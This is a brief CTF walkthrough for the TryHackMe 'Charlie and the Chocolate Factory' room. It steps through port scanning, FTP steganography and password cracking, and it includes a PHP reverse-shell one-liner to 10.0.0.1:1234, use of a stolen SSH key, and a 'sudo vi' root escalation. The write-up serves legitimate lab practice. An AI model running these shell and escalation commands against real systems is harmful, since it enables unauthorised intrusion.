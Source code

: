 ```yaml
---
layout: page
title: Charlie and The Chocolate Factory CTF WalkThrough
permalink: /chocolate
tags: TryHackMe
---
```

# Charlie and the Chocolate Factory
# ![front](/images/chocolate/banner.png)
[https://tryhackme.com/room/chocolatefactory](https://tryhackme.com/room/chocolatefactory)

## Open Ports:
```
nmap  $IP
```

## netcat 
netcat to all prots from 100 - 125
```
nc $IP 100
nc $IP 113
```
* found a link in port **113** : http://localhost/key_rev_key
* found a key file in link
* Revers engineering the file
```
strings key
```

## Ftp

* Anonymous login
* found an image 
```
get gumroom.jpg
```
* extract the image
```
steghide extarct -sf gumroom.jpg
```
* found b64.txt which has base64 encoded text
* decoding the text

* user password shadow file found
* crack the shadow file usig johnny


## Port 80
* Enter the username: charlie
* Enter the password found after cracking : cn7824

* After login found a bar that executes os commands
* Gaining reverse shell
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
* start listner
```
nc -lvnp 1234
```

**Now you have the access to the machine**
* go to /home/charlie

* You will find teleport file which is a id_rsa file(ssh-key)
* copy the contents of the file to host machine
* change the permission of the teleport file in the host machine
```
chmod 600 teleport
ssh -i teleport charlie@ip
```
## Port 22

* cd /home/charlie
```
cat uesr.txt
```
* see the permissions you have
```
sudo -l
```

* permission to run *vi* as sudo 
```
sudo vi -c '!/bin/bash'
```
* now you are root
## root 


* go to /root
```
python root.py
```
* Enter the key found after reversing

